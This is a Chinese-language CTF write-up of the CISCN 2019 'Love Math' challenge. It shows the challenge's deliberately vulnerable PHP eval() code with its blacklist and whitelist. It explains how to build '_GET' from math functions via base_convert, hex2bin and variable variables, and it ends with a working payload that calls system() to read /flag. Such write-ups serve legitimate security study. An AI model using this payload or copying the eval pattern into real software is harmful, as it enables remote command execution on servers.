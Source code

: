 # [CISCN 2019 初赛]Love Math
![](<./img/Pasted image 20221202195606.png>)

---
首页长这样
```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

---
emmm，只给数学函数感觉限死了，但`php`绝对不会让我们失望QwQ

总体上就是利用可变变量和可变函数

---
首先好像要拿一个变量承载字符串，于是选择最短的`pi`

为了保持在80个字符之内，决定给`pi`赋一个`"_GET"`，也就是
```php
$pi="_GET";
```
然后通过`pi`来绕过过滤（这个大括号访问数组和字符串的特性好像在`php7.4`之后被删了QAQ）
```php
$$pi{abs}($$pi{cos})
```
这个会变成
```php
$_GET{abs}($_GET{cos})
```
我们传入
```php
abs=system&cos=<command>
```
即可

问题转化为通过数学函数构造出`'_GET'`

虽然但是，下划线和大写字母好难弄QAQ

![](<./img/Pasted image 20221202214151.png>)

这个东西文档的解释完全没看懂哇wuwuwu

意思好像就是说传入参数是一群字符的`ascii`码的十六进制形式连在一块，然后返回值是还原这些十六进制形式为原字符的结果

也就是说只要构造出了`"hex2bin"`就可以通过`hex2bin`和`dechex`构造出`"_GET"`了

`"hex2bin"`全是字母数字，可以直接`base_convert`QwQ

![](<./img/Pasted image 20221202215159.png>)

![](<./img/Pasted image 20221202215606.png>)

所以就可以构造出最终`payload`啦
```php
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{cos})&abs=system&cos=cat /flag
```
![](<./img/Pasted image 20221202220340.png>)
